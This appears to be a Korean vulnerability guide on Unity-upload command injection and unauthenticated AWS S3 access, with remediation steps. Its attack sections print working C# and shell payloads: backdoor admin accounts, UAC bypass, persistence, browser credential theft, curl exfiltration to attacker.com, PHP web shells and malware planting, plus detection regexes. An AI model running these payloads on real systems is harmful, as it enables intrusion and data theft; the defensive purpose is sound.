 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
```
</details>




<details><summary><strong>파일 업로드 취약점 (AWS S3 무인증 접근)</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 파일 업로드 취약점이란?
AWS S3 버킷이 잘못 구성되어 `--no-sign-request` 옵션을 통해 인증 없이 접근 가능할 때 발생하는 취약점입니다. 공격자가 AWS CLI를 사용하여 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
**AWS CLI를 통한 AWS S3 서버 접근**
- S3 버킷의 퍼블릭 정책 설정 오류
- 버킷 ACL(Access Control List) 잘못된 구성
- IAM 정책의 과도한 권한 부여

### 상세 공격 과정 (페이로드)

#### 1단계: AWS CLI 설치 및 버킷 접근
```bash
# AWS CLI 설치
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

# 무인증 버킷 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl
```

**명령어 옵션 상세 분석:**
- `--no-sign-request`: AWS 액세스 키 없이 요청 서명 생략
- `--no-verify-ssl`: SSL 인증서 검증 우회 (자체 서명 인증서 환경)
- `s3://test_s3_URL`: 타겟 S3 버킷 URL

#### 2단계: 권한 테스트 및 정보 수집
```bash
# 버킷 내 전체 파일 구조 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --no-verify-ssl

# 버킷 정책 정보 수집
aws s3api get-bucket-policy --bucket test_s3_URL --no-sign-request 2>/dev/null

# 버킷 위치 및 설정 정보
aws s3api get-bucket-location --bucket test_s3_URL --no-sign-request
aws s3api get-bucket-acl --bucket test_s3_URL --no-sign-request

# 버킷 크기 및 객체 수 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --summarize
```

#### 3단계: 파일 다운로드 (확장자 검증 없음)
```bash
# 민감한 파일 패턴 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|config|key|pem|p12|jks)$"

# 설정 파일 다운로드
aws s3 cp s3://test_s3_URL/.env ./stolen_configs/ --no-sign-request --no-verify-ssl
aws s3 cp s3://test_s3_URL/config/database.yml ./stolen_configs/ --no-sign-request --no-verify-ssl

# 사용자 업로드 파일 일괄 다운로드
aws s3 sync s3://test_s3_URL/uploads/ ./stolen_user_files/ --no-sign-request --no-verify-ssl

# 백업 파일 탈취
aws s3 cp s3://test_s3_URL/backups/ ./stolen_backups/ --recursive --no-sign-request --no-verify-ssl
```

#### 4단계: 악성 파일 업로드 (확장자 검증 없음)
```bash
# 웹쉘 업로드
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > backdoor.php
aws s3 cp backdoor.php s3://test_s3_URL/public/images/logo.php --no-sign-request --no-verify-ssl

# 피싱 페이지 업로드
aws s3 cp phishing_login.html s3://test_s3_URL/login.html --no-sign-request --no-verify-ssl

# 멀웨어 배포
aws s3 cp trojan.exe s3://test_s3_URL/downloads/security_update.exe --no-sign-request --no-verify-ssl

# 크립토마이너 업로드
aws s3 cp cryptominer.js s3://test_s3_URL/assets/jquery.min.js --no-sign-request --no-verify-ssl
```

### 발생 원인 분석

#### 주요 원인: AWS S3 서버 설정 오류로 인한 무인증 접근
1. **퍼블릭 읽기 권한 설정**: 버킷이 `public-read` 또는 `public-read-write`로 설정
2. **잘못된 버킷 정책**: `Principal: "*"`로 모든 사용자에게 권한 부여
3. **ACL 설정 오류**: `AllUsers` 그룹에 대한 권한 부여
4. **IAM 정책 오설정**: 과도한 권한이 퍼블릭으로 노출

#### 취약한 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",  // 모든 사용자 허용 (위험)
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"  // 업로드 권한까지 부여 (매우 위험)
            ],
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

#### 위험한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl authenticated-read
```

### 실제 공격 시나리오

#### 시나리오 1: 데이터 탈취
```bash
# 1. 버킷 발견 및 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl

# 2. 민감한 파일 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|yml|json|sql|log)$"

# 3. 대용량 데이터 일괄 다운로드
aws s3 sync s3://test_s3_URL/user_data/ ./stolen_data/ --no-sign-request --no-verify-ssl

# 4. 압축하여 외부 서버로 전송
tar -czf stolen_data.tar.gz ./stolen_data/
curl -X POST -F "file=@stolen_data.tar.gz" http://attacker-server.com/collect
```

#### 시나리오 2: 서비스 방해 및 변조
```bash
# 1. 중요 파일 삭제
aws s3 rm s3://test_s3_URL/config/app.yml --no-sign-request

# 2. 대용량 파일 업로드로 스토리지 소모
dd if=/dev/zero of=garbage.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp garbage.bin s3://test_s3_URL/ --no-sign-request

# 3. 웹사이트 메인 페이지 변조
echo "<h1>Hacked by Attacker</h1>" > defaced.html
aws s3 cp defaced.html s3://test_s3_URL/index.html --no-sign-request
```

#### 시나리오 3: 악성 파일 배포
```bash
# 1. 멀웨어 업로드 및 정상 파일로 위장
aws s3 cp malware.exe s3://test_s3_URL/downloads/software_update.exe --no-sign-request

# 2. 피싱 페이지 배포
aws s3 cp fake_login.html s3://test_s3_URL/secure/login.html --no-sign-request

# 3. 웹쉘 업로드
echo '<?php system($_GET["c"]); ?>' > shell.php
aws s3 cp shell.php s3://test_s3_URL/assets/config.php --no-sign-request
```

### 고급 공격 기법

#### 타이밍 기반 공격:
```bash
# 새벽 시간대 대용량 업로드 (탐지 회피)
crontab -e
# 0 2 * * * aws s3 sync /tmp/malicious_files/ s3://test_s3_URL/hidden/ --no-sign-request
```

#### 분산 공격:
```bash
# 여러 IP에서 동시 접근으로 탐지 회피
for ip in 1.2.3.4 5.6.7.8 9.10.11.12; do
    ssh $ip "aws s3 cp s3://test_s3_URL/sensitive_data.sql ./data_$ip.sql --no-sign-request"
done
```

#### 스테가노그래피 활용:
```bash
# 이미지 파일에 데이터 숨기기
steghide embed -cf innocent_image.jpg -ef stolen_data.txt -p password123
aws s3 cp innocent_image.jpg s3://test_s3_URL/images/gallery001.jpg --no-sign-request
```

---

## 2. 조치 가이드

### 2.1. 퍼블릭 액세스 즉시 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket test_s3_URL \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

### 2.3. CloudTrail 모니터링 활성화
```bash
# S3 데이터 이벤트 로깅 활성화
aws cloudtrail put-event-selectors \
    --trail-name s3-monitoring \
    --event-selectors ReadWriteType=All,IncludeManagementEvents=true,DataResources=[{Type=AWS::S3::Object,Values=["arn:aws:s3:::test_s3_URL/*"]}]
```

### 2.4. 응급 격리 조치
```bash
# 1. 버킷 정책 즉시 제거
aws s3api delete-bucket-policy --bucket test_s3_URL

# 2. 의심스러운 파일 확인
aws s3 ls s3://test_s3_URL --recursive | grep -E "\.(php|jsp|asp|exe)$"

# 3. 최근 업로드 파일 격리
aws s3 mv s3://test_s3_URL/suspicious_file.php s3://quarantine-bucket/
```

### 2.5. 보안 강화 설정
```bash
# MFA 삭제 보호 활성화
aws s3api put-bucket-versioning \
    --bucket test_s3_URL \
    --versioning-configuration Status=Enabled,MFADelete=Enabled

# 암호화 강제 적용
aws s3api put-bucket-encryption \
    --bucket test_s3_URL \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```
</details>
